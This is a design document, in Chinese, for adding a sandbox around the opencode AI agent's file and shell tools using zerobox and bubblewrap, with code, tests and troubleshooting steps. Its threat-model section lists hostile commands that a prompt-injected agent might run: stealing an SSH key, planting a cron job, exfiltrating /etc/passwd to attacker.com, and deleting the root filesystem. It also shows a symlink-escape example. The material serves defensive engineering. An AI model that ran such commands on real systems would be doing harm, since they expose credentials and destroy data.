


# opencode 沙箱集成设计文档

## 1. 问题与目标

### 1.1 问题

LLM Agent 在 opencode 中执行的命令和文件操作可以访问**宿主机全部文件系统**。一个恶意/被注入的 prompt 可能：

```
cat /root/.ssh/id_rsa                      # 窃取 SSH Key
echo "malicious" > /etc/cron.d/evil        # 持久化驻留
curl http://attacker.com/exfil?data=$(cat /etc/passwd)  # 数据外泄
python3 -c "import shutil; shutil.rmtree('/')"          # 破坏
```

### 1.2 目标

- **文件工具**（Read/Write/Edit/Glob/Grep）：只能读写工作空间目录
- **Shell 工具**（bash）：只能在工作空间目录内执行，写操作限制在工作空间，读操作限制在工作空间 + 系统只读路径
- **网络访问**：统一代理，不能直连内网服务
- **核心代码最少改动**：~3 行修改 + 3 个新文件

---

## 2. 总体架构

### 2.1 三层拦截

```
┌────────────────────────────────────────────────┐
│                   LLM Agent                      │
├──────────┬──────────┬──────────┬──────────┬─────┤
│  Read    │  Write   │  Edit    │  Glob    │ bash │
│  Tool    │  Tool    │  Tool    │  Tool    │ Tool │
├──────────┴──────────┴──────────┴──────────┴─────┤
│              ┌─── AppFileSystem.Service ───┐      │
│              │   (第二层：路径合法性检查)     │      │
│              └─────────────────────────────┘      │
│              ┌─── ChildProcessSpawner  ─────┐      │
│              │   (第三层：zerobox 进程层)     │      │
│              └─────────────────────────────┘      │
├──────────────────────────────────────────────────┤
│  Linux Kernel (VFS 挂载层)                       │
│  --ro-bind / --bind / --tmpfs                    │
└──────────────────────────────────────────────────┘
```

### 2.2 各层职责

| 层 | 名称 | 机制 | 覆盖工具 | 绕过难度 |
|:-:|------|------|---------|:-------:|
| 2 | **应用层** | `AppFileSystem.Service` 包装，Effect DI 替换 | Read / Write / Edit / Glob / Grep | 中 |
| 3 | **进程层** | `ChildProcessSpawner` 替换，进程启动时加 zerobox 包裹 | Shell / Ripgrep / git / 子代理 | 极难 |

### 2.3 前提条件

- **操作系统**：Linux（需要 bubblewrap + PID namespace）
- **Node.js**：≥ 18
- **bwrap**：`apt install bubblewrap` 或 `yum install bubblewrap`
- **zerobox**：`npm install zerobox`

---

## 3. 依赖：zerobox

> 基于 zerobox v0.3.3+，在 Linux x64 glibc 环境下验证

### 3.1 安装

```bash
npm install zerobox
# 验证
node -e "const { resolveBinary } = require('zerobox'); console.log(resolveBinary())"
```

安装后，`zerobox` CLI 二进制位于 `node_modules/.bin/zerobox`，TypeScript SDK 可直接调用。

### 3.2 作为 CLI 的用法

```bash
# 允许读写工作目录，运行命令
zerobox --allow-read=. --allow-write=. -- node script.js

# 允许网络访问
zerobox --allow-net -- bash -c "curl https://api.github.com"

# 使用 profile（默认加载 workspace profile）
zerobox -- node -e "console.log('hello')"
```

### 3.3 CLI API

```
Usage: zerobox [OPTIONS] [-- <COMMAND>...]

Arguments:
  [COMMAND]...   Command to run in the sandbox (everything after --)

CLI flags:
  --allow-read <paths>       Readable paths (default: all)
  --deny-read <paths>        Blocked paths (takes precedence)
  --allow-write [paths]      Writable paths (default: none)
  --deny-write <paths>       Block writes to paths (takes precedence)
  --allow-net [domains]      Network access (default: none)
  --deny-net <domains>       Blocked domains (takes precedence)
  --profile <name>           Named profile (default: workspace)
  --allow-env [keys]         Inherit env vars (default: PATH, HOME, ...)
  --deny-env <keys>          Block env vars (takes precedence)
  --env <KEY=VALUE>          Set env var
  --secret <KEY=VALUE>       Pass secret (placeholder in process)
  --secret-host <KEY=HOSTS>  Restrict secret to hosts
  -A, --allow-all            Full permissions
  --snapshot                 Record filesystem changes
  --restore                  Record + restore after exit (implies --snapshot)
  --strict-sandbox           Fail instead of falling back
  --debug                    Print sandbox config to stderr
  -C <dir>                   Set working directory
  -V, --version              Print version
  -h, --help                 Print help
```

### 3.4 配置结构

zerobox 的配置通过 `SandboxOptions` 传入，内部通过 `buildFlags()` 转为 CLI 参数：

```typescript
import { Sandbox } from "zerobox"

const sandbox = Sandbox.create({
  allowRead: ["/opt/project"],
  allowWrite: ["/opt/project"],
  denyRead: ["/root", "/home"],
  denyWrite: ["/etc", "/usr", "/lib", "/bin", "/sbin"],
  allowNet: true,
  cwd: "/opt/project",
})
```

| 参数 | 类型 | 说明 |
|------|------|------|
| `allowRead` | `string[]` | 允许读取的路径（追加到 profile 白名单） |
| `denyRead` | `string[]` | 禁止读取的路径（覆盖 profile 默认） |
| `allowWrite` | `string[]` | 允许写入的路径（追加到 profile 白名单） |
| `denyWrite` | `string[]` | 禁止写入的路径（覆盖 profile 默认） |
| `allowNet` | `boolean \| string[]` | `true`=全部放行，`string[]`=限定域名 |
| `denyNet` | `string[]` | 拒绝的域名（优先于 allowNet） |
| `profile` | `string \| string[]` | 使用的 profile 名称（默认 `workspace`） |
| `cwd` | `string` | 工作目录 |
| `allowEnv` | `boolean \| string[]` | 继承的环境变量 |
| `denyEnv` | `string[]` | 禁用的环境变量 |
| `env` | `Record<string, string>` | 自定义环境变量 |
| `secrets` | `Record<string, SecretConfig>` | 密钥注入（进程看到占位符） |
| `allowAll` | `boolean` | 完全放行（等同于关闭沙箱） |

**关键理解**：
- `allowRead` / `allowWrite` 是**追加**到 profile 已有的白名单，不是覆盖
- `deny*` 优先级高于 `allow*`
- 默认加载的 `workspace` profile 会自动放行系统路径（`/bin`, `/usr/lib`, `/tmp` 等）和隐藏敏感路径（`~/.ssh`, `~/.aws`, `~/.docker` 等）

---

## 4. 与 opencode 集成的设计路线

### 4.1 路线选择

| 路线 | 改代码 | 覆盖工具 | 推荐 |
|:----|:-----:|---------|:---:|
| **A: 纯配置**（shell wrapper 脚本） | 0 行 | 仅 Shell 工具 | ❌ 覆盖不完整 |
| **B: DI 替换**（AppFileSystem + ChildProcessSpawner） | ~3 行 | 全部工具 | ✅ **推荐** |
| **C: 全进程沙箱**（bwrap/zerobox 包裹整个 node） | 0 行 | 全部 | 太粗，控制力弱 |

下文按 **路线 B** 展开。

### 4.2 设计原理

opencode 的工具全部都经过 Effect 的 **DI 容器**。两个关键 Service：



Effect 的 `Layer.provide` 机制允许**外层 Layer 的 Service 覆盖内层**。只需要在顶层注入新实现，20+ 处子层中的默认 Service 全部被替换。

### 4.3 覆盖范围

| 工具 | 文件 | 拦截服务 | 行为 |
|------|------|:--------:|------|
| Read | `src/tool/read.ts` | AppFileSystem | 只读工作空间 + 系统路径 |
| Write | `src/tool/write.ts` | AppFileSystem | 只写工作空间 |
| Edit | `src/tool/edit.ts` | AppFileSystem | 只写工作空间 |
| Glob | `src/tool/glob.ts` | AppFileSystem | 只读工作空间 |
| Grep | `src/tool/grep.ts` | AppFileSystem + ChildProcessSpawner | rg 路径检查 + 进程沙箱 |
| Shell | `src/tool/shell.ts` | ChildProcessSpawner | zerobox 进程隔离 |
| Task | `src/tool/task.ts` | 两者 | 子代理继承沙箱 |
| WebFetch | `src/tool/webfetch.ts` | HttpClient | 网络层（本文不涉及） |
| LSP | `src/tool/lsp.ts` | LSP 客户端 | 网络层（本文不涉及） |


---

## 5. 第二层：AppFileSystem.Service 替换

### 5.1 接口定义

```typescript
// packages/core/src/filesystem.ts
export interface Interface extends FileSystem.FileSystem {
  readonly isDir: (path: string) => Effect.Effect<boolean>
  readonly isFile: (path: string) => Effect.Effect<boolean>
  readonly existsSafe: (path: string) => Effect.Effect<boolean>
  readonly readFileStringSafe: (path: string) => Effect.Effect<string | undefined, Error>
  readonly readJson: (path: string) => Effect.Effect<unknown, Error>
  readonly writeJson: (path: string, data: unknown, mode?: number) => Effect.Effect<void, Error>
  readonly ensureDir: (path: string) => Effect.Effect<void, Error>
  readonly writeWithDirs: (path: string, content: string | Uint8Array, mode?: number) => Effect.Effect<void, Error>
  readonly readDirectoryEntries: (path: string) => Effect.Effect<DirEntry[], Error>
  readonly findUp: (target: string, start: string, stop?: string) => Effect.Effect<string[], Error>
  readonly up: (options: { targets: string[]; start: string; stop?: string }) => Effect.Effect<string[], Error>
  readonly globUp: (pattern: string, start: string, stop?: string) => Effect.Effect<string[], Error>
  readonly glob: (pattern: string, options?: Glob.Options) => Effect.Effect<string[], Error>
  readonly globMatch: (pattern: string, filepath: string) => boolean
}
// 继承自 FileSystem.FileSystem 的方法：
// readFile, readFileString, writeFile, writeFileString,
// remove, copy, move, makeDirectory, chmod, chown, link, symlink,
// readDirectory, readLink, stat, exists, ...
```

共约 **30 个方法**，核心读写操作约 20 个。

### 5.2 实现

```typescript
// 新文件: src/sandbox/sandbox-fs.ts
import { Effect, Layer } from "effect"
import { AppFileSystem } from "@opencode-ai/core/filesystem"
import { InstanceState } from "@/effect/instance-state"

const DenyRead = ["/root", "/home", "/var/log"]
const DenyWrite = ["/etc", "/usr", "/lib", "/lib64", "/bin", "/sbin", "/var"]

function permitted(path: string, allowList: string[]): boolean {
  return allowList.some(p =>
    path.startsWith(p) && (path.length === p.length || path[p.length] === "/")
  )
}

export const SandboxFsLayer = Layer.effect(
  AppFileSystem.Service,
  Effect.gen(function* () {
    const real = yield* AppFileSystem.Service
    const cwd = yield* InstanceState.directory.pipe(
      Effect.catchAll(() => Effect.succeed(process.cwd()))
    )

    const allowRead = [cwd, "/tmp", "/usr", "/lib", "/lib64", "/etc", "/bin", "/sbin", "/proc", "/dev"]
    const allowWrite = [cwd, "/tmp"]

    function wrap<Args extends any[], Ret>(
      fn: (...args: Args) => Ret,
      check: (path: string) => boolean,
    ): (...args: Args) => Ret {
      return ((...args: Args) => {
        const path = String(args[0])
        if (!check(path)) {
          return Effect.fail(
            new AppFileSystem.FileSystemError({
              method: fn.name,
              cause: `Sandbox: access denied to ${path}`,
            }),
          ) as any
        }
        return fn(...args)
      }) as (...args: Args) => Ret
    }

    return AppFileSystem.Service.of({
      ...real,
      // 读操作
      readFile: wrap(real.readFile, p => permitted(p, allowRead)),
      readFileString: wrap(real.readFileString, p => permitted(p, allowRead)),
      readDirectory: wrap(real.readDirectory as any, p => permitted(p, allowRead)),
      readDirectoryEntries: wrap(real.readDirectoryEntries, p => permitted(p, allowRead)),
      stat: wrap(real.stat, p => permitted(p, allowRead)),
      exists: ((path: string) =>
        permitted(path, allowRead) ? real.exists(path) : Effect.succeed(false)) as any,
      readLink: wrap(real.readLink, p => permitted(p, allowRead)),
      // 写操作
      writeFile: wrap(real.writeFile, p => permitted(p, allowWrite)),
      writeFileString: wrap(real.writeFileString, p => permitted(p, allowWrite)),
      makeDirectory: wrap(real.makeDirectory, p => permitted(p, allowWrite)),
      remove: wrap(real.remove, p => permitted(p, allowWrite)),
      copy: wrap(real.copy as any, (p: string) => permitted(p, allowWrite)),
      move: wrap(real.move as any, (p: string) => permitted(p, allowWrite)),
      chmod: wrap(real.chmod, p => permitted(p, allowWrite)),
      chown: wrap(real.chown, p => permitted(p, allowWrite)),
      link: wrap(real.link, p => permitted(p, allowWrite)),
      symlink: wrap(real.symlink, p => permitted(p, allowWrite)),
      truncate: wrap(real.truncate, p => permitted(p, allowWrite)),
      // 特殊：writeWithDirs 写目标路径
      writeWithDirs: ((path: string, ...args: any[]) =>
        permitted(path, allowWrite) ? (real.writeWithDirs as any)(path, ...args)
        : Effect.fail(new AppFileSystem.FileSystemError({ method: "writeWithDirs", cause: `denied: ${path}` }))) as any,
      // glob 本身是只读操作
      glob: wrap(real.glob as any, p => permitted(p, allowRead)),
      globUp: wrap(real.globUp, p => permitted(p, allowRead)),
      findUp: wrap(real.findUp, p => permitted(p, allowRead)),
      up: wrap(real.up, p => permitted(p, allowRead)),
    } as AppFileSystem.Interface)
  }),
)
```

### 5.3 工作流程

```
工具调用 fs.readFile("/root/.ssh/id_rsa")
  → SandboxFsLayer.readFile()
    → 检查 "/root/.ssh/id_rsa" 是否在 allowRead 内
      → /root 不在 allowRead 中 → 拒绝
      → 返回 FileSystemError("Sandbox: access denied to /root/.ssh/id_rsa")

工具调用 fs.writeFile("/etc/cron.d/evil", "...")
  → SandboxFsLayer.writeFile()
    → 检查 "/etc/cron.d/evil" 是否在 allowWrite 内
      → /etc 不在 allowWrite 中 → 拒绝
      → 返回 FileSystemError("Sandbox: access denied to /etc/cron.d/evil")
```

---

## 6. 第三层：ChildProcessSpawner 替换

### 6.1 接口定义

```typescript
// effect/unstable/process/ChildProcessSpawner
export interface ChildProcessSpawner {
  readonly spawn: (command: ChildProcess.Command) => Effect.Effect<ChildProcessHandle, PlatformError, Scope>
}

// command 的可能类型：
// StandardCommand: 普通进程（有 command, args, options.shell 等）
// PipedCommand:    管道组合（cmd1 | cmd2）
// SequenceCommand: 序列组合（cmd1 && cmd2）
```

对于 Shell 工具，进入 spawn 的 command 结构为：

```typescript
{
  _tag: "StandardCommand",
  command: "git status",           // 实际命令字符串
  args: [],
  options: {
    shell: "/bin/bash",            // shell 路径
    cwd: "/root/workspace/...",
    env: { ... },
    detached: true,
  }
}
```

### 6.2 实现

```typescript
// src/sandbox/spawner.ts
import { Effect, Layer } from "effect"
import { ChildProcess } from "effect/unstable/process"
import { ChildProcessSpawner, make as makeSpawner } from "effect/unstable/process/ChildProcessSpawner"
import { CrossSpawnSpawner } from "@opencode-ai/core/cross-spawn-spawner"
import { InstanceState } from "@/effect/instance-state"
import { resolveBinary as resolveZerobox } from "zerobox"

export const layer = Layer.effect(
  ChildProcessSpawner,
  Effect.gen(function* () {
    const real = yield* ChildProcessSpawner
    const directory = yield* InstanceState.directory.pipe(
      Effect.catchAll(() => Effect.succeed(process.cwd())),
    )

    // 解析 zerobox 二进制路径（缓存结果）
    const zeroboxBin = yield* Effect.sync(() => resolveZerobox())

    return makeSpawner((command) =>
      Effect.gen(function* () {
        if (command._tag !== "StandardCommand") {
          return yield* real.spawn(command)
        }

        const cwd = command.options.cwd ?? directory

        // 构建 zerobox CLI flags
        const flags = buildZeroboxFlags(directory)

        // 构造 zerobox 命令：zerobox [flags] -- <cmd> [args...]
        // 对于 shell 命令，让 zerobox 的 workspace profile 管理 /root 禁令
        const isShell = !!command.options.shell
        const zeroboxArgs = isShell
          ? [...flags, "--", "sh", "-c", command.command]
          : [...flags, "--", command.command, ...command.args]

        return yield* real.spawn(
          ChildProcess.make(zeroboxBin, zeroboxArgs, {
            cwd,
            env: command.options.env,
            stdio: command.options.stdio,
            detached: command.options.detached,
            killSignal: command.options.killSignal,
          }),
        )
      }),
    )
  }),
).pipe(Layer.provide(CrossSpawnSpawner.defaultLayer))

function buildZeroboxFlags(workspaceDir: string): string[] {
  return [
    `--allow-read=${workspaceDir}`,
    `--allow-write=${workspaceDir}`,
    // 系统路径（zerobox workspace profile 已默认放行，显式列出确保完整）
    "--allow-read=/usr/bin,/usr/lib,/bin,/sbin,/lib,/lib64,/etc,/tmp",
    // 拒绝敏感路径
    "--deny-read=/root,/home",
    "--deny-write=/etc,/usr,/lib,/lib64,/bin,/sbin,/var,/opt,/root,/home",
    // 网络放行
    "--allow-net",
  ]
}
```

### 6.3 执行链路

```
LLM 调 shell 工具：bash -c "git status"

1. ShellTool.run → spawner.spawn(command)
   command = { command: "git status", args: [], options: { shell: "/bin/bash" } }

2. SandboxSpawner.spawn(command)
   → 检测到 shell 命令
   → 构建 zerobox CLI 调用：
     zerobox \
       --allow-read=/root/workspace/project,/usr/bin,/usr/lib,... \
       --allow-write=/root/workspace/project \
       --deny-read=/root,/home \
       --deny-write=/etc,/usr,/lib,/lib64,/bin,/sbin,/var,/opt,/root,/home \
       --allow-net \
       -- sh -c "git status"

3. zerobox 通过 bwrap 启动沙箱：
   bwrap \
     --ro-bind /usr /usr \
     --ro-bind /bin /bin \
     --ro-bind /lib /lib \
     --ro-bind /etc /etc \
     --bind /root/workspace/project /root/workspace/project \
     --tmpfs /root \
     --tmpfs /home \
     --dev /dev \
     --proc /proc \
     --unshare-pid \
     -- /bin/sh -c "git status"

4. git status 在沙箱内执行
   → stdout/stderr 通过 zerobox CLI 返回
   → opencode 收到正常输出
```

### 6.4 符号链接逃逸

如果工作空间内有一个指向 `/root/.ssh/id_rsa` 的符号链接：

```bash
ln -sf /root/.ssh/id_rsa workspace/leak
cat workspace/leak
```

- **第二层**（AppFileSystem）：`readFile("workspace/leak")`→ 路径在 allowRead 内 → **放行**
- **第三层**（zerobox 进程层）：内核解析符号链接 → 目标 `/root/.ssh/id_rsa` 在 tmpfs 中 → **ENOENT**

两层互补，第二层做快速路径检查，第三层做内核强制隔离。

---

## 7. 集成步骤（3 行修改 + 3 个新文件）

### 7.1 文件清单

```
src/
├── sandbox/
│   ├── sandbox-fs.ts          # 新文件: AppFileSystem 沙箱包装  ~80 行
│   ├── sandbox-spawner.ts     # 新文件: ChildProcessSpawner 包装  ~60 行
│   └── index.ts               # 新文件: 导出合并 Layer        ~10 行
└── effect/
    └── app-runtime.ts         # 修改: 替换 2 个 Service       ~3 行
```

### 7.2 步骤 1：创建沙箱模块

三个新文件：

**`src/sandbox/index.ts`**：

```typescript
export { SandboxFsLayer } from "./sandbox-fs"
export { SandboxSpawnerLayer } from "./sandbox-spawner"
import { Layer } from "effect"
import { SandboxFsLayer } from "./sandbox-fs"
import { SandboxSpawnerLayer } from "./sandbox-spawner"

export const SandboxLayer = Layer.mergeAll(
  SandboxFsLayer,
  SandboxSpawnerLayer,
)
```

### 7.3 步骤 2：修改 `src/effect/app-runtime.ts`

**修改前**（line 62）：

```typescript
export const AppLayer = Layer.mergeAll(
  Npm.defaultLayer,
  AppFileSystem.defaultLayer,     // ← 替换这行
  ...
  ToolRegistry.defaultLayer,      // 内部也提供 AppFileSystem + CrossSpawnSpawner
  ...
```

**修改后**：

```typescript
import { SandboxFsLayer, SandboxSpawnerLayer } from "@/sandbox"   // + 1 行 import

export const AppLayer = Layer.mergeAll(
  Npm.defaultLayer,
  SandboxFsLayer,                  // ← 替换 AppFileSystem.defaultLayer
  ...
  ToolRegistry.defaultLayer,
  ...
).pipe(
  Layer.provideMerge(SandboxSpawnerLayer),   // ← 新增：覆盖 ToolRegistry 内的 CrossSpawnSpawner
  Layer.provideMerge(InstanceLayer.layer),
  Layer.provideMerge(Observability.layer),
)
```

**说明**：
- `SandboxFsLayer` 放在 `Layer.mergeAll` 中，提供 `AppFileSystem.Service`，供所有文件工具使用
- `SandboxSpawnerLayer` 通过 `Layer.provideMerge` 在 mergeAll 之后注入，覆盖 `ToolRegistry.defaultLayer` 内部提供的 `CrossSpawnSpawner.defaultLayer`，让所有子进程走 zerobox 沙箱

### 7.4 步骤 3：验证

```bash
# 启动 opencode，打开一个项目
opencode .

# 在 shell 工具中验证
cat ~/.ssh/id_rsa              # 应该返回: No such file or directory
echo test > /etc/test.txt       # 应该返回: Read-only file system
touch workspace/test.txt        # 应该成功

# 在文件工具中验证
Read(filePath = "~/.ssh/id_rsa")   # 应该返回权限错误
Write(filePath = "/etc/test.txt")  # 应该返回权限错误
```

---

## 8. 总览：涉及的所有文件

### 8.1 新文件



### 8.2 修改的文件

| 文件 | 修改 | 行 |
|------|------|:--:|
| `src/effect/app-runtime.ts` | 替换 `AppFileSystem.defaultLayer` + 添加 `SandboxSpawnerLayer` | +2/-1 |
| `package.json`（opencode） | 添加 `zerobox` 依赖 | +1 |

**总计：3 新文件，2 处修改，核心业务零改动。**

### 8.3 不需要修改的文件

以下文件**不需要**任何修改——它们全部通过 Effect DI 被自动替换：

- `src/tool/read.ts`, `write.ts`, `edit.ts`, `glob.ts`, `grep.ts`（通过 AppFileSystem）
- `src/tool/shell.ts`（通过 ChildProcessSpawner）
- `src/tool/registry.ts`（被 app-runtime 的 provideMerge 覆盖）
- `src/task/*.ts`（子代理继承父进程的 Layer）
- 所有 20+ 个 `Layer.provide(AppFileSystem.defaultLayer)` 的子层

---

## 9. 重要设计决策

### 9.1 为什么不在 sandbox-fs.ts 中依赖 InstanceState.context

`sandbox-fs.ts` 在 Layer 构造时就调用 `InstanceState.directory`。但在某些场景下（如 CLI 启动、未打开项目时），Instance 尚未初始化，此时应回退到 `process.cwd()`。

使用 `Effect.catchAll` 兜底：

```typescript
const cwd = yield* InstanceState.directory.pipe(
  Effect.catchAll(() => Effect.succeed(process.cwd()))
)
```

### 9.2 为什么 SandboxSpawnerLayer 用 provideMerge 而不是放在 mergeAll 中

`Layer.mergeAll` 中的 `ToolRegistry.defaultLayer` 内部已经提供了 `ChildProcessSpawner`（通过 `CrossSpawnSpawner.defaultLayer`）。在 mergeAll 中再放一个 `SandboxSpawnerLayer` 会导致 **服务冲突**（两个 Layer 提供同一个 Tag）。

`Layer.provideMerge` 的语义是用外层提供的新服务**覆盖**内层已有的服务，正确解决冲突。

### 9.3 为什么使用 zerobox CLI 而非 SDK

zerobox CLI 二进制直接通过 `resolveBinary()` 解析，通过 `real.spawn()` 启动。原因是：
- `ChildProcessSpawner.spawn()` 需要返回 `ChildProcessHandle`（含流式 stdin/stdout/stderr、pid、kill 信号）
- zerobox SDK 的 `sandbox.exec()` 只返回完整结果（`.text()` / `.output()`），不暴露底层进程句柄
- 通过 `real.spawn(zeroboxBin, [...flags, "--", cmd, ...args])` 启动 zerobox CLI，所有流式 I/O 由底层的跨平台 spawn 实现提供

两种模式的切换：

```typescript
// 模式 A：sh -c 执行（推荐，兼容 zerobox workspace profile）
"--", "sh", "-c", command.command,

// 模式 B：直接执行二进制
"--", command.command, ...command.args
```

### 9.4 macOS 降级

zerobox 底层依赖 Linux namespace（bwrap），macOS 使用 Seatbelt（sandbox-exec）。macOS 行为：
- zerobox 在 macOS 上完全支持，通过 `sandbox-exec` 实现隔离
- opencode 的 `SandboxSpawnerLayer` 在非 Linux 平台上自动降级的逻辑已经由 zerobox 内部处理
- 如禁用沙箱，可通过 `ZEROBOX_NO_SANDBOX=1` 或 `noSandbox: true` 选项

```typescript
// spawner 中无需平台判断——zerobox 跨平台处理
// zerobox 在非 Linux 上自动使用对应后端（macOS: Seatbelt）
```

### 9.5 环境变量泄露

`/proc/self/environ` 在沙箱内仍然可读，进程有权读自己的环境变量。这是设计允许的。如需防止 API Key 泄露，应从源头治理：不使用环境变量传递密钥，改用文件或密钥管理服务。

---

## 10. 测试

### 10.1 单元测试

```typescript
// test-sandbox-fs.ts
Effect.gen(function* () {
  const fs = yield* AppFileSystem.Service

  // 工作空间内读写应成功
  const ok1 = yield* fs.writeFileString("/tmp/workspace/test.txt", "hello")
  const ok2 = yield* fs.readFileString("/tmp/workspace/test.txt")
  assert(ok2 === "hello")

  // 读 /root 应被拒绝
  const fail1 = yield* fs.readFile("/root/.bashrc").pipe(Effect.flip)
  assert(fail1._tag === "FileSystemError")

  // 写 /etc 应被拒绝
  const fail2 = yield* fs.writeFileString("/etc/evil", "bad").pipe(Effect.flip)
  assert(fail2._tag === "FileSystemError")
})
```

### 10.2 集成测试

```bash
# 安装 zerobox
npm install zerobox

# 验证 zerobox 可用
node -e "const { Sandbox } = require('zerobox'); const s = Sandbox.create(); s.exec('echo', ['sandbox_works']).text().then(console.log)"

# 验证 opencode shell 工具走沙箱
opencode . --eval 'bash -c "cat /root/.ssh/id_rsa"'
# 预期输出: cat: /root/.ssh/id_rsa: No such file or directory
```

### 10.3 黑客逃逸测试

参考 zerobox 内置的安全机制，验证 25+ 种绕过手法都被拦截：

| 类别 | 手法 | 拦截层 |
|------|------|:-----:|
| 直接写入 | echo/printf/重定向 | 第三层（EROFS） |
| 符号链接 | /tmp/link→目标目录 | 第三层（tmpfs） |
| Python API | os.open/shutil/mmap | 第三层 |
| /proc 逃逸 | /proc/self/root | 第三层 |
| 文件工具 | Read/Write 工具 | 第二层 |

---

## 11. 故障排除

### 问题：zerobox 二进制找不到

```
Error: zerobox binary not found at "zerobox". Install the package (npm install zerobox) or set ZEROBOX_BIN.
```

**解决**：执行 `npm install zerobox`，确认 `npx zerobox --help` 返回正常。或设置 `ZEROBOX_BIN` 环境变量指向手动安装的二进制路径。

### 问题：bwrap 未安装

```
bwrap: No such file or directory
```

**解决**：`apt install bubblewrap` 或 `yum install bubblewrap`。

### 问题：WSL2 musl 误检测

```
Error: zerobox binary not found
```

**解决**：WSL2 上偶发 `ld-musl-x86_64.so.1` 文件导致 musl 误检测。手动指定二进制路径：

```typescript
import { createRequire } from "node:module";
const nodeRequire = createRequire(import.meta.url);
const pkgDir = nodeRequire.resolve("@zerobox/cli-linux-x64/package.json");
process.env.ZEROBOX_BIN = pkgDir.replace("/package.json", "") + "/zerobox";
```

### 问题：bash_history 只读错误

```
bwrap: Can't create file at /root/.bash_history: Read-only file system
```

**解决**：zerobox 的 workspace profile 已经隐藏 `/root`，如使用 `sh -c` 执行命令时遇到此问题，确保使用了正确的 profile 或设置 `HISTFILE=/dev/null`。

### 问题：Layer 冲突

```
Error: Conflict for tag @opencode/FileSystem: multiple layers provide it
```

**解决**：确认 `SandboxFsLayer` 在 `mergeAll` 中**替换**了 `AppFileSystem.defaultLayer`（不是添加）。`SandboxSpawnerLayer` 通过 `provideMerge` 注入而非 `mergeAll`。

### 问题：集成后 shell 命令全失败

检查 zerobox 二进制是否可用，确保 `ZEROBOX_BIN` 环境变量正确设置（如需要）。从简单的命令开始调试：

```bash
node -e "const { Sandbox } = require('zerobox'); Sandbox.create().exec('echo', ['hello']).text().then(console.log)"
```
